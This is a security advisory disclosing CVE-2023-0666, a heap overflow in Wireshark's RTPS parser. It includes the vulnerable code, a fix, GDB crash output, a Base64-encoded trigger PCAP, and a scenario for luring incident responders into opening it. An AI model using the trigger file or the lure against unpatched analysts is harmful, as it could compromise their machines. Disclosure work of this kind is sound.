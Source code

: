 ```yaml
---
layout: default
title: CVE-2023-0666 🤘
categories: nav
showinnav: false
---
```


# CVE-2023-0666: Wireshark RTPS Parsing Buffer Overflow

[AHA!] has discovered an issue with [Wireshark] from The Wireshark Foundation, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] today, on Monday, June 5, 2023. [CVE-2023-0666] has been assigned to this issue.

Any questions about this disclosure should be directed to **cve@takeonme.org**.

# Executive Summary

Due to failure in validating the length provided by an attacker-crafted [RTPS](https://wiki.wireshark.org/Protocols/rtps) packet, Wireshark version 4.0.5 and prior, by default, is susceptible to a heap-based buffer overflow, and possibly code execution in the context of the process running Wireshark. [CVE-2023-0666] appears to be an instance of [CWE-122].

# Technical Details

The `rtps_util_add_type_library_type` function contains a call to `g_strlcpy` that, without validation, uses a length supplied by the packet data that can result in a heap-based buffer overflow.

Snippet of the vulnerable code:

```
  static gint rtps_util_add_type_library_type(proto_tree *tree,
          tvbuff_t * tvb, gint offset, const guint encoding, dissection_info *info) {
    proto_tree * annotation_tree;
    guint32 member_id = 0, member_length = 0, long_number, i;
    gint offset_tmp;
    guint16 short_number;
    gchar * name = NULL;
    rtps_util_dissect_parameter_header(tvb, &offset, encoding, &member_id, &member_length);
    offset_tmp = offset;
/* ... */
    long_number = tvb_get_guint32(tvb, offset_tmp, encoding);
    name = tvb_get_string_enc(wmem_packet_scope(), tvb, offset_tmp+4, long_number, ENC_ASCII);
    if (info)
      (void) g_strlcpy(info->member_name, name, long_number);
```

The `dissection_info` struct is defined as:

```
  typedef struct _dissection_info {
    guint64 type_id;
    gint member_kind;
    guint64 base_type_id;
    guint32 member_length;
    gchar member_name[MAX_MEMBER_NAME];

    RTICdrTypeObjectExtensibility extensibility;

    gint32 bound;
    guint32 num_elements;
    dissection_element* elements;

  } dissection_info;
```

and `MAX_MEMBER_NAME` is defined as:

```
  #define MAX_MEMBER_NAME                 (256)
```

The overflow occurs when `long_number` is greater than 256 bytes however it should be noted that this does require that many bytes to have been sent.

`g_strlcpy` expects the size of the destination buffer as the last argument so this can be remediated by using `sizeof(info->member_name)` instead of `long_number` in the `g_strlcpy` call. Additionally, the return value should be checked because if it is greater than `sizeof(info->member_name)`, then truncation occurred.

Reproduction: Run `tshark -r rtps_trigger.pcap` or open `rtps_trigger.pcap` in Wireshark. Note that an ASAN build is not required due to the way the PCAP was crafted.

Full output from running under GDB:

```
(gdb) run -r ~/rtps_trigger.pcap
Starting program: /usr/bin/tshark -r ~/rtps_trigger.pcap

This GDB supports auto-downloading debuginfo from the following URLs:
https://debuginfod.ubuntu.com
Enable debuginfod for this session? (y or [n]) n
Debuginfod has been disabled.
To make this setting permanent, add 'set debuginfod enabled off' to .gdbinit.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7fffebcdd6c0 (LWP 125835)]
[Thread 0x7fffebcdd6c0 (LWP 125835) exited]
[New Thread 0x7fffebcdd6c0 (LWP 125836)]
[Thread 0x7fffebcdd6c0 (LWP 125836) exited]
    1   0.000000 192.168.0.231 → 192.168.0.214 TCP 54 2603 → 9187 [SYN] Seq=0 Win=8192 Len=0
    2   0.000363 192.168.0.214 → 192.168.0.231 TCP 54 9187 → 2603 [SYN, ACK] Seq=0 Ack=0 Win=8192 Len=0
    3   0.000611 192.168.0.231 → 192.168.0.214 TCP 54 2603 → 9187 [ACK] Seq=1 Ack=0 Win=8192 Len=0
    4   0.000853 192.168.0.231 → 192.168.0.214 RTPS 1454 DATA_deprecated[Malformed Packet]

Thread 1 "tshark" received signal SIGSEGV, Segmentation fault.
wmem_block_split_free_chunk (allocator=0x5555555bf660, chunk=0x7fffe9f44fb0, size=<optimized out>) at ./wsutil/wmem/wmem_allocator_block.c:614
614     ./wsutil/wmem/wmem_allocator_block.c: No such file or directory.
(gdb) x/5i $pc
=> 0x7ffff088db1b <wmem_block_split_free_chunk+267>:    mov    QWORD PTR [rsi+0x10],rax
   0x7ffff088db1f <wmem_block_split_free_chunk+271>:    mov    QWORD PTR [r8+0x8],rax
   0x7ffff088db23 <wmem_block_split_free_chunk+275>:    jmp    0x7ffff088da9b <wmem_block_split_free_chunk+139>
   0x7ffff088db28 <wmem_block_split_free_chunk+280>:    nop    DWORD PTR [rax+rax*1+0x0]
   0x7ffff088db30 <wmem_block_split_free_chunk+288>:    mov    rax,QWORD PTR [rcx+0x10]
(gdb) p (char[]) $rsi
$1 = "AHA!AHA!"
```

A Base64 encoded blob of an example PCAP that can trigger the issue is below.

[expand]

```
1MOyoQIABAAAAAAAAAAAAP//AAABAAAAW+1JZDkZDgA2AAAANgAAAHRGoNgQS3RGo
CvQ6AgARQAAKAABAABABvfBwKgA58CoANYKKyPjAAC1rAAAAABQAiAAKRoAAFvtSW
SkGg4ANgAAADYAAAB0RqAr0Oh0RqDYEEsIAEUAACgAAQAAQAb3wcCoANbAqADnI+M
KKwAAAAEAALWsUBIgACkJAABb7UlknBsOADYAAAA2AAAAdEag2BBLdEagK9DoCABF
AAAoAAEAAEAG98HAqADnwKgA1gorI+MAALWtAAAAAVAQIAApCgAAW+1JZI4cDgCuB
QAArgUAAHRGoNgQS3RGoCvQ6AgARQAFoAABAABABvJJwKgA58CoANYKKyPjAAC1rQ
AAAAJQGCAA7yIAAAAACJBSVFBTAgABAQAAAAAAAQkBEjRWeAIbeABSZWFkV3JpdJh
2VDIQ/ty6EjRWeN6tur5FZ4kKuqqqrRD+3LpyAEwAAQAAAAYAAABGaQABDgAAAAIA
AAARIjNEVWZ3iJmqu8zd7v8WFxgZICEiIyQBAgMEBQYHCAkQERITFBUWFxgZICEiI
yQDAAAARXhwAAEAAABBYTBBYTFBYTJBYTNBYTRBYTVBYTZBYTdBYThBYTlBYjBBYj
FBYjJBYjNBYjRBYjVBYjZBYjdBYjhBYjlBYzBBYzFBYzJBYzNBYzRBYzVBYzZBYzd
BYzhBYzlBZDBBZDFBZDJBZDNBZDRBZDVBZDZBZDdBZDhBZDlBZTBBZTFBZTJBZTNB
ZTRBZTVBZTZBZTdBZThBZTlBZjBBZjFBZjJBZjNBZjRBZjVBZjZBZjdBZjhBZjlBZ
zBBZzFBZzJBZzNBZzRBZzVBZzZBZzdBZzhBZzlBaAAEAABBaDJBaDNBaDRBaDVBaD
ZBaDdBaDhBaDlBaTBBaTFBaTJBaTNBaTRBaTVBaTZBaTdBaThBaTlBajBBajFBajJ
BajNBajRBajVBajZBajdBajhBajlBazBBazFBazJBazNBazRBazVBazZBazdBazhB
azlBbDBBbDFBbDJBbDNBbDRBbDVBbDZBbDdBbDhBbDlBbTBBbTFBbTJBbTNBbTRBb
TVBbTZBbTdBbThBbTlBbjBBbjFBbjJBbjNBbjRBbjVBbjZBbjdBbjhBbjlBbzBBbz
FBbzJBbzNBbzRBbzVBbzZBbzdBbzhBbzlBcDBBcDFBcDJBcDNBcDRBcDVBcDZBcDd
BcDhBcDlBcTBBcTFBcTJBcTNBcTRBcTVBcTZBcTdBcThBcTlBcjBBcjFBSEEhQUhB
ITRBcjVBcjZBcjdBcjhBcjlBczBBczFBczJBczNBczRBczVBczZBczdBczhBczlBd
DBBdDFBdDJBdDNBdDRBdDVBdDZBdDdBdDhBdDlBdTBBdTFBdTJBdTNBdTRBdTVBdT
ZBdTdBdThBdTlBdjBBdjFBdjJBdjNBdjRBdjVBdjZBdjdBdjhBdjlBdzBBdzFBdzJ
BdzNBdzRBdzVBdzZBdzdBdzhBdzlBeDBBeDFBeDJBeDNBeDRBeDVBeDZBeDdBeDhB
eDlBeTBBeTFBeTJBeTNBeTRBeTVBeTZBeTdBeThBeTlBejBBejFBejJBejNBejRBe
jVBejZBejdBejhBejlCYTBCYTFCYTJCYTNCYTRCYTVCYTZCYTdCYThCYTlCYjBCYj
FCYjJCYjNCYjRCYjVCYjZCYjdCYjhCYjlCYzBCYzFCYzJCYzNCYzRCYzVCYzZCYzd
CYzhCYzlCZDBCZDFCZDJCZDNCZDRCZDVCZDZCZDdCZDhCZDlCZTBCZTFCZTJCZTNC
ZTRCZTVCZTZCZTdCZThCZTlCZjBCZjFCZjJCZjNCZjRCZjVCZjZCZjdCZjhCZjlCZ
zBCZzFCZzJCZzNCZzRCZzVCZzZCZzdCZzhCZzlCaDBCaDFCaDJCaDNCaDRCaDVCaD
ZCaDdCaDhCaDlCaTBCQWEwQWExQWEyQWEzQWE0QWE1QWE2QWE3QWE4QWE5QWIwQWI
xQWIyQWIzQWI0QWI1QWI2QWI3QWI4QWI5QWMwQWMxQWMyQWMzQWM0QWM1QWM2QWM3
QWM4QWM5QWQwQWQxQWQyQWQzQWQ0QWQ1QWQ2QWQ3QWQ4QWQ5QWUwQWUxQWUyQWUzQ
WU0QWU1QWU2QWU3QWU4QWU5QWYwQWYxQWYyQWYzQWY0QWY1QWY2QWY3QWY4QWY5QW
cwQWcxQWcyQWczQWc0QWc1QWc2QWc3QWc4QWc5QWgwQWgxQWgyQWgzQWg0QWg1W+1
JZBUeDgA2AAAANgAAAHRGoCvQ6HRGoNgQSwgARQAAKAABAABABvfBwKgA1sCoAOcj
4worAAAAAgAAuyVQECAAI5EAAFvtSWQAHw4AUgMAAFIDAAB0RqDYEEt0RqAr0OgIA
EUAA0QAAQAAQAb0pcCoAOfAqADWCisj4wAAuyUAAAACUBggAG1hAABBaDZBaDdBaD
hBaDlBaTBBaTFBaTJBaTNBaTRBaTVBaTZBaTdBaThBaTlBajBBajFBajJBajNBajR
BajVBajZBajdBajhBajlBazBBazFBazJBazNBazRBazVBazZBazdBazhBazlBbDBB
bDFBbDJBbDNBbDRBbDVBbDZBbDdBbDhBbDlBbTBBbTFBbTJBbTNBbTRBbTVBbTZBb
TdBbThBbTlBbjBBbjFBbjJBbjNBbjRBbjVBbjZBbjdBbjhBbjlBbzBBbzFBbzJBbz
NBbzRBbzVBbzZBbzdBbzhBbzlBcDBBcDFBcDJBcDNBcDRBcDVBcDZBcDdBcDhBcDl
BcTBBcTFBcTJBcTNBcTRBcTVBcTZBcTdBcThBcTlBcjBBcjFBSEEhQUhBITRBcjVB
cjZBcjdBcjhBcjlBczBBczFBczJBczNBczRBczVBczZBczdBczhBczlBdDBBdDFBd
DJBdDNBdDRBdDVBdDZBdDdBdDhBdDlBdTBBdTFBdTJBdTNBdTRBdTVBdTZBdTdBdT
hBdTlBdjBBdjFBdjJBdjNBdjRBdjVBdjZBdjdBdjhBdjlBdzBBdzFBdzJBdzNBdzR
BdzVBdzZBdzdBdzhBdzlBeDBBeDFBeDJBeDNBeDRBeDVBeDZBeDdBeDhBeDlBeTBB
eTFBeTJBeTNBeTRBeTVBeTZBeTdBeThBeTlBejBBejFBejJBejNBejRBejVBejZBe
jdBejhBejlCYTBCYTFCYTJCYTNCYTRCYTVCYTZCYTdCYThCYTlCYjBCYjFCYjJCYj
NCYjRCYjVCYjZCYjdCYjhCYjlCYzBCYzFCYzJCYzNCYzRCYzVCYzZCYzdCYzhCYzl
CZDBCZDFCZDJCZDNCZDRCZDVCZDZCZDdCZDhCZDlCZTBCZTFCZTJCZTNCZTRCZTVC
ZTZCZTdCZThCZTlCZjBCZjFCZjJCZjNCZjRCZjVCZjZCZjdCZjhCZjlCZzBCZzFCZ
zJCZzNCZzRCZzVCZzZCZzdCZzhCZzlCaDBCaDFCaDJCaDNCaDRCaDVCaDZCaDdCaD
hCaDlCaTBCW+1JZHggDgA2AAAANgAAAHRGoCvQ6HRGoNgQSwgARQAAKAABAABABvf
BwKgA1sCoAOcj4worAAAAAgAAvkFQECAAIHUAAA==
```

[/expand]

<br/>

# Attacker Value

By providing this poisoned RTPS packet, an attacker could hijack the user account of an analyst running Wireshark. Many security appliances capture packets as a matter of course for later analysis, and Wireshark is a common tool used by incident responders. So, it would be trivial for an attacker to intentionally "get caught" in order to provide their malicious packet to an incident response analyst. Once compromised, this can provide an attacker a unique, privileged position in the targeted network.

# Credit

This issue is being disclosed through the AHA! CNA and is credited to: [Austin Hackers Anonymous!](https://infosec.exchange/@austinhackers)

# Timeline

Note, while we expected to publicly disclose this issue in early July (60 days after disclosure to The Wireshark Foundation), the vendor publicized the issue on May 22nd in issue [19085].

* 2023-04-27 (Wed): Initial findings presented at the regularly scheduled [meeting] 0x00c7.
* 2023-05-17 (Wed): PoC validated and analysis completed for disclosure.
* 2023-05-18 (Thu): Disclosed to the vendor via email at security@wireshark.org.
* 2023-05-18 (Thu): Vendor acknowledged, and opened issue [19085] to address.
* 2023-05-21 (Sun): Patch [merged](https://gitlab.com/wireshark/wireshark/-/merge_requests/10687) to the release-4.0 branch of Wireshark.
* 2023-05-22 (Mon): Issue [19085] made public by the vendor.
* 2023-05-24 (Wed): [CVE-2023-0666] fixed in Wireshark version [4.0.6](https://gitlab.com/wireshark/wireshark/-/commit/ac2f5a01286addcb34ffb204e1eeb5fd8ccdb85c)
* 2023-06-05 (Mon): Public disclosure of [CVE-2023-0666]

----

[AHA!]: https://takeonme.org
[disclosure policy]: https://takeonme.org/cve.html
[CVE-2023-0666]: https://takeonme.org/cves/CVE-2023-0666.html
[CWE-122]: https://cwe.mitre.org/data/definitions/122.html
[meeting]: https://takeonme.org/meetings.html
[19085]: https://gitlab.com/wireshark/wireshark/-/issues/19085
[Wireshark]: https://www.wireshark.org/download.html